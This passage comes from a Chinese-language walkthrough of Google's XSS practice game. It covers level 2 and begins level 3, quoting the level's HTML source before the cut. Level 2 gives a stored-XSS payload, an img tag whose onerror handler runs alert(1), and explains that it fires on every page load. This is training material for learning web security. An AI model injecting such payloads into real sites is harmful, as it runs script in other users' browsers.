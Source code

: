 > onerror 事件在视频/音频（audio/video）数据加载期间发生错误时触发。

利用img标签加载一个不存在的对象，会触发onerror事件

payload：

```js
<img src="" onerror="javascript:alert(1);"/>
```

代码存进了服务器里，只要刷新都会触发

![level2-1](xss/image-20210424145306208.png)

![level2-2](xss/image-20210424145406792.png)



---

## level3

https://xss-game.appspot.com/level3/frame#1

源码·index.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- Load jQuery -->
    <script
      src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js">
    </script>
 
    <script>
```